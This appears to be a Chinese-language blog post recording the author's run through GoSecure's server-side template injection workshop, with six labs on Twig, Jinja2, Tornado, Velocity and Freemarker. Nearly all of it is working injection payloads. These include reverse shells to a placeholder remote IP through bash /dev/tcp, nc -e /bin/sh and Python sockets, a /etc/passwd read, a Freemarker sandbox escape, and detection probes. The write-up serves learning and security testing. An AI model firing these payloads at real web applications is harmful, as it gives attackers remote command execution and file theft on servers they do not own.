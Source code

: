 ```yaml
---
layout: post
title:  Learning SSTI with gosecure
subtitle: Gosecure的SSTI环境学习记录
tags: [ssti,websec]
---
```


## 环境地址
gosecure 的ssti教程地址[template-injection-workshop](https://gosecure.github.io/template-injection-workshop/#0)

## LAB 1: Twig (PHP)
```
email={{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("/bin/bash -c \"/bin/bash -i >%26 /dev/tcp/your_remote_ip/port 0>%261\"")}}&submit=
```
原理可以参考[Twig SSTI](https://github.com/EdOverflow/bugbountywiki/wiki/SSTI)。  

问题：
直接bash -i /dev/tcp/ip/port 的时候，报错"/dev/tcp no such file or directory"，搜索发现是因为使用的是exec函数，不能直接处理重定向。参考[/dev/tcp](https://stackoverflow.com/questions/36022331/bash-i-dev-tcp-127-0-0-1-1234-01)，使用`bash -c`可以成功。


## LAB 2: Jinja2 (Python)
```
name={{''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd','r').read()}}&org=1&phone=33&email=44
```
查找`subprocess.Popen`
```
{% for item in ''.__class__.__mro__[2].__subclasses__()%}
        {%- if item.__name__ == 'Popen' -%}
        {{loop.index0}}{{item}}
{%- endif -%}
    {% endfor %}
```

shell
```
{{''.__class__.__mro__[2].__subclasses__()[245](["/bin/bash","-c","/bin/bash -i >%26 /dev/tcp/your_remote_ip/port 0>%261"])}}
```

## LAB 3: Tornado (Python)

```
{[remove]%import subprocess,socket,os%}{{s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)}}{{s.connect(("your_remote_ip",port))}}{{os.dup2(s.fileno(),0)}}{{ os.dup2(s.fileno(),1)}}{{ os.dup2(s.fileno(),2)}}{{p=subprocess.call(["/bin/sh","-i"])}}
```

```
{[remove]%import subprocess%} {{subprocess.Popen(["nc","your_remote_ip","port","-e","/bin/sh"])}}
```

## LAB 4: Velocity (Java)
猜密码猜了半天没有猜对，最后还是去看了一下代码才找到密码。  
检测：
```
#set($x=7*7)$x
```
```
#set($x='')#set($rt=$x.class.forName('java.lang.Runtime'))#set($chr=$x.class.forName('java.lang.Character'))#set($str=$x.class.forName('java.lang.String'))#set($ex=$rt.getRuntime().exec('cat secret/flag.txt'))$ex.waitFor()#set($out=$ex.getInputStream())#foreach($i in [1..$out.available()])$str.valueOf($chr.toChars($out.read()))#end
```

```
#set($x='')#set($rt=$x.class.forName('java.lang.Runtime'))#set($chr=$x.class.forName('java.lang.Character'))#set($str=$x.class.forName('java.lang.String'))#set($ex=$rt.getRuntime().exec('nc your_rermote_ip port -e /bin/sh '))$ex.waitFor()
```

## LAB 5: Freemarker (Java)
检测：
```
${7*7}
```

```
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("cat secret/flag.txt") }
```

```
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("nc your_remote_ip port -e /bin/sh  ") }
```

## LAB 6: Freemaker (Sandbox escape)
```
<#list .data_model as key, object_test>

<b>Testing "${key}":</b><br/>
<#attempt>

<#assign classloader=object_test.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>

Shell ! ( 
${dwf.newInstance(ec,null)("nc your_remote_ip port -e /bin/sh")}
)

<#recover>
failed
</#attempt>

<br/><br/>
</#list>
```

## 总结
经过案例练习，了解了ssti的实际场景和检测方式。实际利用一方面是积累利用方式，另一方面需要了解语言特性才有可能找到gadget。  

感谢网络上各位的分享。

* [Template Injection in Action](https://gosecure.github.io/template-injection-workshop/)
* [Server-Side Template Injection](https://portswigger.net/research/server-side-template-injection)
